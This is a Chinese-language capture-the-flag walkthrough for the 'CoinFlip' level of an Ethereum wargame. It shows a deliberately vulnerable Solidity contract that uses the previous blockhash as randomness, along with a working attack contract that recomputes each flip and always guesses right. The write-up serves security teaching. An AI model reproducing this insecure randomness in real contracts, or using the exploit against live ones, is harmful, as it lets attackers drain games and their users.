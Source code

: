 # 3. CoinFlip

### 原题
```
这是一个掷硬币的游戏，你需要连续的猜对结果。
完成这一关，你需要通过你的超能力来连续猜对十次。

``` 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
### 分析
不要被“连续10次猜中”这个要求吓到。\
平时我们玩硬币猜正反面，确实基本不大可能会连续10次可以都猜对。\
玩的都是天意。\
我们看看代码，里面把计算方法都打明牌了，\
都是确定性的计算，也没有随机，这哪叫猜啊，这就是明牌斗地主。\
我们只要把他的计算过程，自己计算一遍，给出结果再给他，这样就可以把把都猜中了。\
没有随机数，计算结果可以复制的。\
就像小朋友捉迷藏，自己站在最明显的地方蒙着自己的眼睛叫人来找他！\
话不多说，下面就是攻击代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface  ICoinFlip {
    function flip(bool _guess) external  returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip public coinflip;
    // 同样的factor
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor (address _coinflip) {
        coinflip = ICoinFlip(_coinflip);
    }

    function attack() public {
      // 同样的区块号计算
       uint256 blockValue = uint256(blockhash(block.number -1 ));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        // 必然返回同样的结果
        // 做的更完善的，可以自动猜，我为了演示，直接手动，偷懒
        coinflip.flip(side);
    }
}
```